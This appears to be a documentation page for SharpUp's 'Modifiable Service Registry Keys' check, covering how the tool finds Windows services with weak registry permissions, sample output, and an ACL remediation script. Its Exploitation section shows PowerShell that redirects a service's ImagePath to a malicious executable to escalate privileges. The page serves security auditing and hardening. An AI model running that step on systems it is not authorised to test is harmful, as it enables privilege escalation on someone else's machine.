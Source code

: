 ```yaml
---
title: 'Modifiable Service Registry Keys'
description: 'Service registry keys with weak permissions'
icon: 'key'
---
```


## Overview

The Modifiable Service Registry Keys check identifies Windows services where the registry key under `HKLM:\SYSTEM\CurrentControlSet\Services\` has weak permissions. If a user can modify a service's registry key, they can change service configuration including the executable path, achieving privilege escalation.

## How It Works

SharpUp enumerates all services and checks registry permissions:

1. Get list of all services
2. For each service, check `HKLM:\SYSTEM\CurrentControlSet\Services\[ServiceName]`
3. Evaluate if current user has write permissions to the key
4. Report vulnerable services with their state and startup mode

## Example Output

```
=== Services with Modifiable Registry Keys ===
    Service 'VulnSvc' (State: Running, StartMode: Automatic) : SYSTEM\CurrentControlSet\Services\VulnSvc
```

## Exploitation

```powershell
# Modify service ImagePath to run malicious executable
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\VulnSvc" `
    -Name "ImagePath" `
    -Value "C:\temp\malicious.exe"

# Restart service
Restart-Service -Name VulnSvc
```

## Remediation

<Steps>
  <Step title="Fix Registry Permissions">
    ```powershell
    $serviceName = "VulnSvc"
    $keyPath = "HKLM:\SYSTEM\CurrentControlSet\Services\$serviceName"

    $acl = Get-Acl $keyPath
    $acl.Access | Where-Object {
        $_.IdentityReference -notmatch "SYSTEM|Administrators|TrustedInstaller" -and
        $_.RegistryRights -match "WriteKey|SetValue|CreateSubKey"
    } | ForEach-Object { $acl.RemoveAccessRule($_) }

    Set-Acl $keyPath $acl
    ```
  </Step>
</Steps>

## Related Checks

<CardGroup cols={2}>
  <Card title="Modifiable Services" icon="gear" href="/ghostpack-docs/SharpUp-mdx/checks/modifiableservices">
    Services with weak DACL permissions
  </Card>
  <Card title="Modifiable Service Binaries" icon="file-binary" href="/ghostpack-docs/SharpUp-mdx/checks/modifiableservicebinaries">
    Service executables with weak permissions
  </Card>
</CardGroup>
